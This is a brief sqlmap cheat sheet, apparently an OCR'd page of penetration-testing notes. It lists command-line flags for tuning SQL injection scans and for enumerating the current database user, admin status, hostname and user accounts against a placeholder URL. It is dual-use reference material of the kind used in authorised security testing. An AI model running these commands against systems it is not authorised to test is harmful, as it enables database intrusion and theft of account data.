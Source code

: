 	sqlmap -u <url> --threads=10
	
### Level 3 is max

	wqlmap -u <url> --risk=3

### Level 5 is max

	sqlmap -u <url> --level=5

	sqlmap -u <url> --dbms="<KNOWN DB TECH>"

	sqlmap -u <url> --os="<OS>"

### Use only techniques UNION and BLIND in that order (default "BEUSTQ")

    sqlmap -u <url> --technique="UB"

### Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers

    sqlmap -u <url> --batch

### HTTP authentication type (Basic, Digest, NTLM or PKI)

    sqlmap -u <url> --auth-type="<AUTH>"

### HTTP authentication credentials (name:password)

    sqlmap -u <url> --auth-cred="<AUTH>"

    sqlmap -u <url> --proxy=http://127.0.0.1:8080

### Help sqlmap identify union SQLi techniques with a weird union char

    sqlmap -u <url> --union-char "GsFRts2"

### Get current user

    sqlmap -u <url> --current-user

### Check if current user is Admin

    sqlmap -u <url> --is-dba

### Get hostname

    sqlmap -u <url> --hostname

### Get usernames od DB

    sqlmap -u <url> --users
